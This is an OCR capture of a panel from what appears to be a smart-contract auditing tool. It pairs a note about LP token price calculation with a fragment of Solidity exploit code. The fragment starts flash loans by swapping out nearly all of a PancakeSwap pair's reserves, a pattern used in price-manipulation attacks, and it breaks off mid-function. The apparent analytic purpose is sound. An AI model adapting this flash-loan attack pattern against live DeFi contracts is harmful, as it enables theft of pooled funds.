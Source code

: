 │ }                                                                                                                                                                                                                                                    │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function trigger() public {                                                                                                                                                                                                                      │
│         if (flip.earned(address(this)) > 0) {                                                                                                                                                                                                        │
│             //Initiate flashloans                                                                                                                                                                                                                    │
│             emit log_string("Initiate flashloans...");                                                                                                                                                                                               │
│                                                                                                                                                                                                                                                      │
│             (uint256 _amount0, uint256 _amount1, ) = pairs[0].getReserves();                                                                                                                                                                         │
│             if (WBNB == pairs[0].token1()) {                                                                                                                                                                                                         │
│                 pairs[0].swap(0, _amount1 - 1, address(this), abi.encode(0, 1));                                                                                                                                                                     │
│             } else {                                                                                                                                                                                                                                 │
│                 pairs[0].swap(_amount0 - 1, 0, address(this), abi.encode(0, 0));                                                                                                                                                                     │
│             }                                                                                                                                                                                                                                        │
│                                                                                                                                                                                                                                                      │
│             // execution passes to pancakeCall()                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│             // all flashloans have been repaid!                                                                                                                                                                                                      │
│             emit log_string("All flashloans have been repaid!");                                                                                                                                                                                     │